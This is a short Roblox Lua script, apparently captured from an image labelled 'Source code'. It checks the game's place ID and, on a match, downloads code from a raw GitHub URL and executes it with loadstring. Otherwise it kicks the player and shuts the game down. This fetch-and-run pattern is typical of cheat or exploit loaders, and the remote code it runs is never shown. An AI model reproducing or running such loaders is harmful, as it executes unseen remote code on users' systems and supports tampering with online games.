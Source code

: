 local PlaceId = game.PlaceId

if PlaceId == 8645723106 then
        loadstring(game:HttpGet(('https://raw.githubusercontent.com/idkfffff/kkk/main/kkkk'),true))()
else
	game.Players.LocalPlayer:kick("Sus")
	wait(2)
	game:Shutdown()
end
